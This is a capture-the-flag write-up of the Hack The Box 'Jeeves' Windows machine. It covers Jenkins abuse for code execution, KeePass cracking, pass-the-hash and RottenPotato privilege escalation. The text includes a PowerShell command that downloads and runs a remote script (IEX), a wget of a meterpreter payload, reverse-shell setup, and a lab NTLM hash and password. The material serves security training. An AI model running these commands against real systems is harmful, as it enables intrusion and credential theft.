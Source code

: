 ```yaml
---
layout: post
title:  "HTB Jeeves Windows"
decription: Tools and techniques used, pass the hash, msfvenom and john 
tags: HTB, groovy, rottenpotato, john2keepass
---
```


# Recon
1. Nmap
```ruby
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```
2. We use Dirbuster to find out the directories running on port 50000
![](https://lh3.googleusercontent.com/_afaZLU2r7PSsRJNlxpfM8UkyjsVbg6g8-1q85Q31pA-5CB_W0-cBRwACFTsE3cod1P26WJo78fFhm3EfoTMnTRoUzNeu223cJ20e1OGONEm8cr4S32otLqEsOEmdKU-va4vkY8eYdc1yCsL0H5tTxNEs5G595qg540jwIVNptwK2XqpEf3jtUgdMY7dt-wPnFLbydXqY05RKIRAvS5uCc9gzmYazY2XIDJY4ytIXmW-z0rGHLZeYilfeoZGdkaY5ei7P8ja2Pv2SL4aPq2lINQL5zS7_H18WLcY-pGSGe9yooMTpZlH5W45fsqn5eA4daF0OZ8bGnSBJJeJTyJT05KXz-CGwsJtEWxmbyTJzrN0IhkEE5nZl0XJ1gPTzuv4kNDFP1OvDefKYTLL3fKxJZZoVKtW7SJAdye7Ul6NimfGXyGvGnrdJIi--lQpKuS9wilTDRAHw6R7pWc13AjelcsL0LtUc-1s8tDxV02KJm-KdHXEDXUviW5n915DxNK8gfRnCdnR5i9qtiz0rqaB0F6kJ114EhwwC4qMKfnyu42rMQbGrebQXGLQRqY2-O41EG7Fp5t_NgJFq3Ulin7nbT3NzRfqM8N5SuCwPYhCqQBlsWF824xZzqonarSURAPU0hAoBmsF-UWXB0HfV9m11tdDJU-OycSAgW5daX-ty4aSU2LiT2a7IvA=w584-h209-no)

3. /askjeeves/ has a Jekins app running
![](https://lh3.googleusercontent.com/Jj_T1StwVe2aThqjKb8ybZ3Ythca4n9qyXUwzI0SnGlu_QoIU1wknCBMWre8iu7hq7qx27D6Ypo_rGBWsguoiwYiEnNMpYlMirqT_HUIzl6QQcoS0bbg7oLsAfc57D8iOVkh9sUiOzVxJ2TkPTa_TIUhwSpNhZE5OHkEJwKiZJs5VCuV9hflHd5vXp4mM8iDlhdEMYotLpDtuQRxxjwXotZyfQtWy59PAcGn1mzTPyTbBNwxkIBlYf_HxMXugwl8P25YDWc8Gqei_npEvzSFTIEwGrbdy-XeW-jk0HZoJ2TwherUMO01qV7ITn-v4_uX5GbLhgKP3iMqy2VqtjYGNVRn28nseTHok0AN9sRcoSIyTaPqUn_-5ErL2h3_JIipQSetVYsosRv55wCUVji94bKP8HDPnKuhGKwt_87D9E2SRo9OL4sHs9EaHsBzfxVmZSEDK1pZJ6NEhZsOmzWeuOjjOpXOojvpP32C09eKfymOJHtKTCZ_PR2Edr9xSVuewwRZ605eCjPYjbkTU5FN3zjoKinaUTkCreIqnc_AIVmNp2fwDtYtS_AdWCg3gJJ5iaWjB4sxo4iKw1D9Pm2gzYno3pJ8exVsC8aDZKB7uZU9UWH4YMivbUSS2HjmJz_cLeWBUDEirs-8FiumgfXEwQuabGMbi5cjEHkDilL8PXhLXPtjEGoWqEA=w632-h364-no)

4. To get admin without authenticating:
```ruby
http://10.10.10.63:50000/askjeeves/securityRealm/user/admin/
```

# Exploitation Method 1

1. On Jenkins create a new Item “Execute Windows bash command” and select “Freestyle Project”
2. Select “Add building Step” and select  “Execute Windows bash command” 
3. On the bash console type:
```ruby
powershell wget "http://10.10.14.14/peterpreter.exe" -outfile "meterpreter.exe" 
```
![](https://lh3.googleusercontent.com/YDkMzr-vtiHmFXOcfFhQ-jH7jwJHqIA4mG4VtCR5_4V5ddTdi5DNFvuYu0_iUxyFGg0mYeDa01p2dWkin60m-wXyvGVl3T2jdiAD9fkGPeCyQRobjP6idpoJ1euKxPaDeQpy-KF7P049lf4x61VASqfhxHpgX_Te_1K7_KPRhIUCwyOzxlwtcKH5y891IF2gyIJk6qNwPyGUgfypQLVWTBzUksJfSUE_dfyOFUWeUVQtK5dSw4YHeNRKlHUu_wZkRf8uRfpuiiCbZnCrYJo08-ZVSDvq7WLYLP7_sfMQvybWlsuXdM8ey_4fyVJutkeu2oYdXRDtBOU22ZROYG5N5kXXvo-8dfKJlhJIC_LMCmEbO7vYjekIXCfJUnHfGwvuf92By4OASnShb63mQpC0ELRs0U0u5WYWkAWBKJdYrxLabjuwjt6dqT_PIjeq9wbrdLlLvN0Zt4ylq_wiyrMLLdrs-EecKC-BDNc24pwU1ZQA1Xkg3JNWCzAYWKV82N8E5QfKroZoWkgWRspDH-x-r3_Y4PFNMBzG7NAhDh2FHsm_aUZgXZubmhmbdAkRfSg5oGgrVTcCdDVhGPYFpglpjAX_7f6_29ZLRUWzdAf29SOyfeDORA_g6Wnu9sY32BjpIeKENlQKpSVjiz9UwepfZDeMxUq_7_HHO_tWEu7MDk3T5Kf8TrIGo9s=w970-h314-no)

4. Start apache and place meterpreter.exe file for download 
5. Set up multi/handler
6. Run the shell on jenkins 
 

# Privilege Escalation Method 1
1. Download CEH.kdbx keepass file
2. Use john2keepass to create a hashdump file
![](https://lh3.googleusercontent.com/9OJrTvzMPP3i6evtNryFb5qTsbZ6hYuMsMxVBMCexwdiFRNtLMd5FDONHlZp29jVycy-DZm5HfJp8sOJMucFUtKf4CyUFQ5eFgS7vfP_IrTF8vFrMomsv2y3RkN3O1LvhsqlwZ9-EoCTWAHNOKHamfJXGx0REoXq4ZAvfawWAfFltjR7pClbmr9thvwl861bHfCizrQfyctVoHuVthL4M9C56d353wTSv_ZT0C3M0CKiQ3PVva9lwEIUQkSXsDLBP_MoVNKnl2j5tfgkJ7RLwu7awrimMRsmUmZZIKhJQYxG1nLgPaSOO8jnGS4cPCP8ythKmrJPbamj_aukj5Js7dX7uplGdBLoIZ7eqvp9ynhUpypwTMUz1qV0blONEDMI0Z9DAv21mupuwy9lgEhldxUGSbkWWCeNCD9wdXgARa68Fj_Z34ymA5deD938PrLFwZNW-dK9atiHSty3PuJZ137cSjJJeCE12eKr9T5-vMPuPCoqtsPbQPBFnRr0rPcKsXVPVkWmRcG1uS4ut7fdcTOeKWcGRpY6qoX-RGaGcjosh0iOmI1gWGplcIZ13ets4HTdUOBTqYbYtf4VwNSzeHakxkzYq-QvogDZoGfQ7pIWez5zNa6eWHy9Qyrkel_So7jCZPTCupseRaP9_fjg2EBzk-7i-fsNSb_-741OtvOmM0MErJ3yijA=w702-h41-no)

![](https://lh3.googleusercontent.com/V2iiPSYdkJN0xPncus61RGEf31aNjntGxobvD15RWQ3fUoJzXke3K1Tue5ZI1Bj2bTo6v2fcASLwknkVEGR7po5ilL5n2hes31D_H6W8AOCr3dW_R3DbkfV0CccSpGIag-f7nfhVzWw74n_CwbpL4jgGPh7apMcnEqnfrGytrq35ancCHvjt4eVcPTTqqfkxNcfn0uWbUTL3TFGH7BMxf96l8SypVKWsSizSgGu6SzkDy8qwHPeVc8PcvxZaQMYBgfgJR12zwEjzEEeOPKBVbn7QHbtk2ev43cKlOOa8sG9u373O7f4_oKZ06XM7OktzPVmt0gFkxm46MLnvZdtbrqs_iCgW0FIsp5SiITAtU3kkEa4dm2RkB7ZbZuc4apRbVFN9aIYUrxAg9R3T5dAV_fomwvfr0xMAYpTfShNPUCXfu_Q6FAf7q4nyy2saITO2oFe7NTt7RYAkXqc1nuIONF5v-iGDG9l925kQRN_ltKVmeS30Uesla1b2SyiEGFkisnK523pzz6P0BH2nsegS3Ajgj6miEXUZLkViGgFWsU1snZqOe7VDZiZjN2gN8dDD3YWgWmOn420f3ATQULPWRakbezNnOPDpiEC7pagobe2gpcg1fr8_BuH-9Y9NOMZJSMQCecRic3bBYdtF6gJNfJJdBmLXuW3A1jQs7JhxwA30pr6EAVQubFg=w1345-h92-no)

3. crack the has using john format=KeePass and wordlist=rockyou.txt
4. we obtain the pass : CEH:moonshine1 to load the keepass backup file
5. Install Keepass2 : apt-get install keepass2
![](https://lh3.googleusercontent.com/Islqk6gH29nUfCHj6hmq2q71eDb4v8npwOjXZH-YWU4PXsKopusOcWfZpf2bVwFKsoSaoNeWRc82p7xuMjyZI3MmXMqLDb2f2B0wGH19CIQm5V_rsxOajEFUN2On2LOzpFQA3PwwsYW02m5v3eeLUNbYVZYZAm9NJlfqjnJRKC1uHWapMeWIjhhlV2pFT_Aqpq2_E_t6SXiwiBP3IF37eCHgndzIrHCy0fZ6rvRxxr47NRBjkj5UvwhHuyI6oDH_PJvpjOOuyLpuJ4BkG33cdIZZWujGHfweBdZqNVkdID3pLb0wZbAuwcPq_yQ1wluC3QbJ9acLlI_9FZV91d-n6xGZOlAZiatAf6iMxtC4OtjwcRSaEdYYg1fdm_k6o16WkAktDww9rRjmkvYz6tBAtZsca4TG3RHimXsxagR-lQNMMPRMZLAPP83Z6U-TjCEWhlatFs2tMtTSqMxkdlXhmFTx7E1N3kCVOPE2I89I3vNLVnaKtw2KjzTI7R0zP-INNBzP-cVAOOjKip05lrlI8GS_iFkR5b6SV5hekOTC9fqmrb5ZTHq4WsKwoPB48kvBsJVqXuyQi0jjMdha9zMuFV5QxQK4-v4P0xXh3pywPSf61DRGjOZPKkxjm0vEFilKOftQ1jGHKtsSqtffwNwwokLPI87u3UdQRonyC-dpaoSoW_jRvuAqQ5I=w880-h380-no)
![](https://lh3.googleusercontent.com/yESheUKzZintmFdhx5grIB2zb4xqmTSHK2WESoOWO4f_BREzErS47xF7urY02sxJ6y6IQRF3hXu6cNg0JjTM1iI6-TWS8cj9wO_qijOF_BcZVsEysvmuv321r1mhSfAXCYCQingIrtmwmTkcbmhl_QSmFIapTtKkO6A7Fx6eTcBOWlJGJ4zA2Jr7SfXMri3Gm5A0GbSx7HnRLmzR9LLwJ-tLp5vIHg_pBLoft8bH0c1NMFqiPlebp-KWeK7JSEDT_i2HCk7nDT2Naw9Zwpl3_PyYIS2BNfvSclSNZNq4_IV4kFBir2e6_MHnlSFH9F-v42hxhXnNXAzFHOYIm2DPmfOZ-_aQ05bStVMjDkT8ZmcyJ5lYyFXeLGthuMTcedri41MKxYrquY8pPzNS25Nv-dXjOFx10wjg3j1kXvO5vz63xxWKyiKozyWOTaCLidmHMNSRO0Rc4iCzbNvKfWNErZc4pr5pNlA1cCCXNtkik8cpfNBeLfmjoSW0l_L6HZ71NBcdp65OphiFlHj8l8SKyX966PNokooYu4ND59OqZGUdIl_jb-7GAHe0Oj-2_ZEi1EYf00fgikl_SYeVO6UaQbsiw_c_yFhB4rgIjUznoUuNxMZ7o2ad4h9FKHZyWGOxunKXVfVNgmv5-wBOk3zUh3Mpy9hHk9E2zzZfouiqjJNbKS-Tj-cLg08=w665-h271-no)

6. We obtain the admin NTLM hash: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
7. Using msf "windows smb" we connect using a pass the hash techique:   
```ruby
use exploit/windows/smb/psexec
msf exploit(windows/smb/psexec) > set rhost 10.10.10.63
msf exploit(windows/smb/psexec) > set smbuser administrator
msf exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(windows/smb/psexec) > set lport 8888
msf exploit(windows/smb/psexec) > exploit
```
![](https://lh3.googleusercontent.com/eBGePb4dnYzjoWMM-uXeEVgU0B46DEP9OgC_jyx8zfjsLP751XG5pEewQIpctBbWS5_J8PwDD5jVA-KrKoV7QgQxgWd0W6m-71PKfePq7xgLdVMytDA8OiAL-_koytlRo-5RaMwu8iZc3dIsHmq0hYVxvDMaxzyeH_DjcDl_hAJqQ1sDZLzaVX7tAth7l8yWfvlcvNoOPQ2ydYo5QKMTd4HbsnwacR5PzQZ12NIPXsRRJWwgkpHaZvTYLU2A799DJXPJLQZjBoe1K9WY8bGyn8Ecd3QfBXFVuLVHPdpS74V7s7H_01iEgGVk6d39JKRcoHZxIyKsH5TXzcWFX_CSCMyxRZTl2hUw41VvyXQ3sd-XavvAn4XPNEcioBey3fJyzLk89FED6qEMUnriqdnmQ-DXtDNjO6lfJwG75pDVecQrck1ou6IACPABkJTqvbk6-_uWNcASpUYnNGhKUb0Hk2E95Jwl7BH_lSKNGGI9arxIXDLe-jHREUdpRCLfwLx7yV5bPQfCtY4zPI3ENM_AUGGr_tl5QMXmKNo3dVlBI8Cy-BuuDsx3MOmV5QvBLF9PXfj9EXHA1nle7ahUKbgQTxByBQZ-dcUCdBCPJBaLkzRbELxKX8nQGGXcxjA3--NYeMvx8DJB5dGFGO4-sLeou4CMl1UA6jxc7Zumi272S3fDpfmbbWHcU1M=w800-h135-no)
![](https://lh3.googleusercontent.com/jkBEIkugszoadzManrJjWgPSIbhMSZ8GCHx1CgbEUGvemic6IjOqB0oLqNJ_UZi9o6S2uEOpWKLS8HZqiNRkh01l3dPXAslRa4bbVsZcZQpFlz_WKW8_WcnH2iW9pOAhyEmUzWb-AxmsCldGiQIJT4t7reDBZeJomaNh146EKAgSjFTZvE8_oMV16MmhKHvPRhUQyAGzFQwvN2gqvu1SWiwVfZuXy3JembymELFzWpITfviVRZHOFQM6qLTZ2enZWELKBixCIkXoDxXOs5qNXaUJuNUBCRLZMUp52D3xncwImlnXN_oSHV5tTFS4ymRinMLIKiavRhAbbWkBkUVHShKOjcVfxpAihdt0Lb1oTcGy58xqfggYpruewA89FUp9SK8K-cHRG-y-SfM0HsouT5c9zu-CW0v8gx5zCR3r0Wqhq77A9C_PV4xkpgeTQdfTx5rV2CUROlN9TSaYxGedNUtZWSznAWcRbBEFyDzYQyTMrgUuJ1PCYN5IUDwKSywX5HYdwcMvdShwlNn3XHLM7wOLB2r9lSc0YeKiVkm_m8MhLxs0DnoI8vyXYCJBoKfSs-dXlirhkPP65i9XxBh9_PZj1BL1pOA7Qoo2AG9VAyQiZ1NZuU_fGnhq8HDA2jeVLB2GG-AdecuEMF9wM0t-AwQ0PaoySeJ4SsnfAuMqJZFnW3JIBHbv9EI=w1027-h250-no)

8. There is an alternate data stream applied to the ROOT flag. to view flag
dir /R
more < hm.txt:root.txt
![](https://lh3.googleusercontent.com/xpd9SOEyI-JiReW2JbioAi5AHMCFGy0V0tHvKOvKTVGHz_cFIYogPb7A97ebQStpAVXRvvO8wSzkWQ8-RVjdsPBPuXU3WXIu-1F2CCcJB6NJQjm7i1FFZoM6yRXo4OwLSdLemtzVfa6FkZ01TK_YqR8Ek88JQDalshpNtugrdYquLhrOaDaK2knsxfvJCNVmFzvBM36fNmerXk6v1rLlGuZ_XHYU13qbQUlJrBB03UCCp3KSxXY_5njK80QIFHOAvrUlEOsg2GgHXiRY1PJys_OQ9QOkIDmOTbSGPm10tImD1CAoulflJDb7FYywwHTgU6QYHCgvgkmZ7P8Z_4O0YKmdko7PG-QPWMC2Z1hEsK-bcJzzLR77tsxXslJjzzmxDcbYAOAoGqov0cN-GeOln22HWPmRN0DujJennCg6ARTRuiWK1v6CHOAq2gChBiH6xYqcU9Lw_HigXJV0dc70_E9q3Cj8MpEjevgZdq2DXk0T9892WvKy562S_aOQc4OexG7_kiB4M-4NqIGwGS2YK-tkxFeXI5lJHOfPlSAkdbJl27L6tFsfFyxxFIXcYgi2n0Z72pKqVd6Isr3ci3MnDlFFmkdyUnEm3RPD_uH7mMaxpT8ZPLTFBU41wkIuvixCa0Cr6fSvTnMfmnOhxvK4v6H5mgpNn0uS5FuD1b5LwhMz_7vaf1S5z6o=w567-h457-no)

# Exploitation Method 2
1. On Jenkins, create a reverser Groovy shell on the “script console” under “manage Jenkins” tab and run it
![](https://lh3.googleusercontent.com/FQ5o3fWatVzanE6muqXIeYxVxlS8jQPi6Bv8_U5FUys52OShe0tsZ4D6rlHXkyLFGibxeeLQRIHHcyoBpviboovTRMaBXEqb6o5THcYwj61z0rj1JnDcdDkV8dbvp7PD-cm7xzZgpMWPIpRXZ0xs6MYARFaQI4jUb2tjIC2KM2qzWnPFOkHES1Lgdq88OEtn-2mdg2uNf3fa_6jal1iQP34tn7m_JjvE4ssIVQWENE-F_bPJ_C-jPvohYjL_5chRkq1Kx_LKAKMyaF6e-msKgVOSaSEySgrhC3c6vtmUFtD5hSy4EjrxadEcsVs0m_QcqJxcBLLdAbGCeu_AgXzHuThcB9yozRZLTHi5NRipm6cmE56XYLGM4n-7wcr04P7IT5EPjbblF8bW5eFBuCx50z6fOkQTNbVyqJT-UAj6flFYpgzepqkJ_iY2Gd98EO6pPCMyh0-TSfGozdMyfSYCRns0eDiEK3em0_IJDtUSTcTtcr9MtcumII-3hTZbIKX0mWotQ8125hiaM-fnJT4iBlFp0obvK7sroscqZn98mpa65Gy_6iOfHml05eIVQZxiM9gAV1Zm7j0itM8Q95oXnOys2HJyAakhnqV-3CX8cz0eIj9ZxMBZ97MTo7IfaWprlmx16hOODWA5PVCzyxXb80MXjzLVhwZ9Lt9n9QOYg81xVttQpxVmPKI=w503-h125-no)

2. Set up an nc listener to recieve the shell
3. Set up a meterpreter shell:
```ruby
use exploit/multi/script/web_delivery
msf exploit(multi/script/web_delivery) > set target 2
msf exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 10.10.14.28
msf exploit(multi/script/web_delivery) > set srvhost 10.10.14.28
msf exploit(multi/script/web_delivery) > exploit
```
4. We paste the following generated code into the netcat listener and meterpreter session should be created
```ruby
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
powershell.exe -nop -w hidden -c $B=new-object net.webclient;$B.proxy=[Net.WebRequest]::GetSystemWebProxy();$B.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $B.downloadstring('http://10.10.14.34:8080/MHGDnJdwHT');
```
![](https://lh3.googleusercontent.com/cWUwdooZ0YmIq8lxngjJOvsdkv12Wn4IHBeoHD_JyecTa_NWPth3Smo34rumlM0lWemLXHI4yTHgA7ckuq9mJZz0atCu8Ehaxjr207WEBVlpmzCJUgRK-aMFfOVZX6nCs7LBF8QdYQwPtVsj-l8ppm8g5qcswPARi83sk9PY82rTABlC1IH6jWpC2wF0HwPI6bzV6rwSYRKcdq6jw5y3FhQiaRu9UEvEOAK6uVpTcIdo-0f7G-68Qoj9d2YFPxGPkcvFwnGFMu4MPDYQVES6a6HCAVI4ForSBJdmZFi83obZYVcWhMSXCOEzwaF3ru1PwextetH8J4KkVqzfu54NIchmHzzItE0opaMcld6y2_Zk41KqUx-BbGrWR4lqzMrI3zV_J6UmfMrm8QEgRds6CUVWiGTRutdEXkPaPTfegCDKMwQyQ4ntls48u_if0mXYgzI4cVICHX82HirOYw8gnFjnB_r5avyTPOUh3PpAw9t4pLVvV_hBzKuSIuXNxZ6i9pPD87B79rr4KKn8-FkaJGv0MsOjPVYe-EW_YgVzT-955tZM-NK7Xrk5KkL874ey0IxpzsMdouflQkOJDu0gtaEsHOmE-IzB0AbbcTYgZRur8B3aNNV7sKxhkihedFuiYSLCmR4_oTSpW_Eq9rMblbUXywBvVfjgvAzPSr1wAM54O4qtgGWU2IM=w601-h240-no)
![](https://lh3.googleusercontent.com/4geGjhzpOMMJVbYdiXGbEOjRrG6fsO62THAFzVeRBt82R4xT3T-D7Te39MY-_8V-gmute5NX_tHh89Zkt_f2YCjem3ibxspd9VzBRTMHE0rTotUSvYzBNbvJ4mX1C3XzSI9d_Dv0sm44DQoYkfRI-TAsqBNJhAG7XuQ_YJQEiLU0vOD8ONN2h0NP4RZGQbLUTJM3JoZsr1v4zoJcM4opPthsqa3eitbAPsmgb6DJTL21Z-mYiiMsemkoVRtqITd2QbXtUZH9ye6UsJZJCGYcEnvCQ_T9rl5mSBWtYFq4Nb_bQIWB5K-xhwegATF79SbfgOb0jfBzAt16Htwoqyym9nt-NyHUzhynQjaO3ouOvLyZAIS3Y8B4gDO6B6c4-X8dTHLXq_o6x7-3tScUfgw7EaWhhHTm_6rQuwez7g_o9zh24RgCi-kgjlHrwev9KwNRU508Dog4Ze3JVeewLX9OUXJ5DxBMm7RkiuLQvHdeBnvmzYAe3d3htrIFuJv3TEJN942rxS1uxcBb5HhA6wO5arpA8OiWK_8Bd4VGQbwEjVpnmnjDECIDkGV41CSN1B1ZvQZgbr3qHgWH-WYn-WCXQB3Zx4tuR-xDj_fvRt3J3VzxUZ0ayTwTBHDBWr_BHznKcs4N1YdzecsLIpQ-EDlvIox7Ojzzyq9NHFXefheTVbzxgCSv55UU82k=w627-h269-no)

![](https://lh3.googleusercontent.com/SQMm5Heeyenkw81qqmiX454UcyGRe9p_VcJfniTFz0RZCHnL-QvTifqdbCl6dC72qSFh0oRG0h9V3vXkbpoD1Koa1HHTdn0qSBpaNNdgkEUNVp6jsOXPcfmCdD1yOLZ_iTcU2GxL-TadvjMiCjqvTjEcbn3Q7U-4SBOLAFKLbbXfFB9zEGhuGbNPgxqIqU3JOn_2sWHKNaGpJ3bKZw-jM6_SxRtEkuWhXWi3Rb7AAv9t5ES94Qs3T02yGCbuWT93dx82vDNPFLAnSfrduEuaonH8evQRczYeGg2Swk4VdE1Ceg3AUq35nH5a4eBgOwGWIxYknK_EiGo3oWqnUxCZSp2R8dNwtrfy-qE9U8PkJyYpwGVI8F6o4sZNFqOm1oUKYBr0Vn7bM2pQ_qCIQ7_CLI-Nr3RhqG9LQsJUiZ7u3gfpmIrW0oLFBPDfWF6t71Y9wVS5mpNSt6qvwHLv91affyrzYh2UI-pMK1FIXsLPelY8RmHlr7sYD28i6-i-xT5FJDTe6mdsm2rOHzoN_6TTXjBKh88hFb9aloCEeiwaDEGNQvrMiFR9jU_RZkqh_ZkXyshCIorKF0SDR0nOP3ZyCn41NpEyAe4taz17ArwaOLa80lNNLj5D-_u2HoZ3O-kPuKcS_ukcQtF313X0dcHJ7Zjs-CXJ1-Bpxi1IPVPzwzLGBjW0VyRlKKo=w1134-h331-no)


# Privilege Escalation Method 2

1. Use Windows Exploit Suggesters
2. We use the Vuln MS16-075 and we upload RottenPotato.exe to the target machine
3. then we load meterpretert incognito: load incognito
4. we execute the rottenpotato.exe file
5. then we type:
```ruby
impersonate_token "NT AUTHORITY\SYSTEM"
```
and finally we get root level access.
![](https://lh3.googleusercontent.com/zBWypHEBhLc6rJr4e0nfdaRSeTA51f4sOLArH4Jz_UlHQR7wxJ90Lsz4ohA_CoQv0AIDnwycooSnaCz9CqBnRHbzA80EkXYQa5cDtEIaCr06jkCFDl9P0Nz8n94mriplK7pPnNix-Pqbl1XHr5V4lnkVIHBch-K7NoazKkcKnxk9lsIwJcVNc_6w9JAy7muxtJHZnk0e29zCjKQnzJKtSb3Fmq-dq1RoeHWBiT4yv7bbehtyvzSUHhDCrEC040zNh5QNeUMNyUikSoylSkyk5b1sOks-qb5JuwdNAQPqhyPfjNcuPB9vs4ARnBOHwZtPZ6ML9fkYCdkhTYx__nEj1hxXPwXX8lSQMU6DyfVzsL3Yig6vlHFtvoYxgyUUlUx7cknjgoLm7ZYTJ6KqhiWmSFhb7cAjZpLC07V9_h90PReJ7KgFP0CQ2cXUOZpjzzrf5-nqDhbZXh9QAFJ7qbjRqeQ6c-E9aMn6dkdV6ONRqMrbw9P3HI6tGonaXaRa6tl4mYfB2aKQHf5t_uQ9oYzIdPGP0vz26cLW4wS2cm-wzGzn1nN5228YVD4Ju3n6q6xCGolE9LMzyPc5H_RACVnResBfUgvp8O-jt9pC3QrSy16t1kb2h0d8aNjbgonKh2J7wKKz4S7I8qx7BnkEyfH859uIb3V_1Ef8GlyEytzBJMf-q7x9ZeZOXxA=w656-h308-no)

# Flags
```ruby
| ROOT | afbc5bd4b615a60648cec41c6ac92530 |
| USER | e3232272596fb47950d59c4cf1e7066a |
```




